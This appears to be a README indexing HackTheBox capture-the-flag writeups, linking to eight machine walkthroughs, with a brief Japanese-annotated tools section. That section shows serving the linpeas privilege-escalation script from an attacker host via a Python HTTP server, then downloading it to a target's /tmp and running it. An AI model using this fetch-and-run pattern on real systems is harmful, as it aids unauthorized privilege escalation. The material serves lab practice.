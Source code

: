 # HackTheBox-writeups
HackTheBox machine writeups


## LinkVortex

https://github.com/s1f102201672/HackTheBox-writeup/tree/main/LinkVortex

## Instant

https://github.com/s1f102201672/HackTheBox-writeup/tree/main/Instant


## BoardLight

https://github.com/s1f102201672/HackTheBox-writeup/tree/main/BoardLight


## Forest

https://github.com/s1f102201672/HackTheBox-writeup/tree/main/Forest


## Cap

https://github.com/s1f102201672/HackTheBox-writeup/tree/main/Cap


## Strutted

https://github.com/s1f102201672/HackTheBox-writeup/tree/main/Strutted


## Cicada

https://github.com/s1f102201672/HackTheBox-writeup/tree/main/Cicada


## Mirai

https://github.com/s1f102201672/HackTheBox-writeup/tree/main/Mirai




# Tools
## linpeas
home/kaliにインストール

```
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
```

/home/kali送る側
```
python3 -m http.server 8080
```

ターゲットマシンで受け取る
```
cd /tmp
wget http://10.10.xx.xx/linpeas.sh -O linpeas.sh
xx:/tmp$ ls
linpeas.sh

xx:/tmp$ chmod +x linpeas.sh
chmod +x linpeas.sh

./linpeas.sh
xx:/tmp$ ./linpeas.sh | tee linpeas_output.txt
```

